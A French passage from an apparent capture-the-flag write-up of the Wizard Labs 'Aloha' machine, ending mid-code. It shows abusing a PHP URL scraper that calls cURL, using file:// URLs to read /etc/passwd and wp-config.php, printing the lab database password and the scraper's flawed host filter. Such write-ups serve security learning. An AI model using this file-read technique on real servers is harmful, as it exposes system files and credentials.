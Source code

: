 Quand on arrive sur le site on trouve un lien vers un blog *Wordpress* contenant ce billet :  

![Wizard Labs CTF Aloha wordpress blog](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/aloha_blog.png)

On garde en tête le possible nom d'utilisateur *alex* et on se rend sur l'URL mentionnée :  

![Wizard Labs CTF Aloha php scraper vulnerable script](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/aloha_scaper.png)

On a donc un formulaire qui va charger une URL. Le premier réflexe est de mettre un port en écoute et voir comment est formatée la requête HTTP :  

```shellsession
$ ncat -l -p 8080 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.1.1.60.
Ncat: Connection from 10.1.1.60:49138.
GET / HTTP/1.1
Host: 10.254.0.29:8080
User-Agent: curl/7.58.0
Accept: */*
```

Nice ! On a ici ce cher ami cURL dont soit le binaire est appelé *directement* via une fonction PHP comme *system()* ou via l'emploi d'une librairie PHP dédiée.  

Dans tous les cas on sait, [comme l'indique la page de manuel](https://linux.die.net/man/1/curl), que cURL supporte différents protocoles et notamment le schéma *file://* :).  

Si on spécifie l'URL *file:///etc/passwd* on obtient ainsi le fichier correspondant avec la liste des utilisateurs (on retrouve le login *alex*).  

Vu qu'ici un Wordpress est installé on va charger l'URL *file:///var/www/html/blog/wp-config.php* contenant les identifiants de connexion à la base de données.  

Deviner le path de ce fichier n'est pas difficile puisque la racine web utilisée est celle que l'on trouve généralement sous Linux (il peut y avoir des variantes avec *htdocs*).  

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'SQLR00T@@' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Si on regarde le code du scrapper (obtenu de la même façon) on voit qu'il utilise le binaire cURL :  

```php
<?php
$banned_hosts = array();
$banned_hosts[] = "localhost";
$banned_hosts[] = "127.0.0.1";
if (preg_match('/\b'.$_GET['command'].'\b/', 'http') !== false) {
    die('<b><font color="red">ERROR:</b></color> URL must contain http schema');

}
foreach($banned_hosts as $host) {
   if (parse_url($_GET['command'], PHP_URL_HOST) == $host) {
    die('<b><font color="red">ERROR:</b></color> restricted host');
   }
```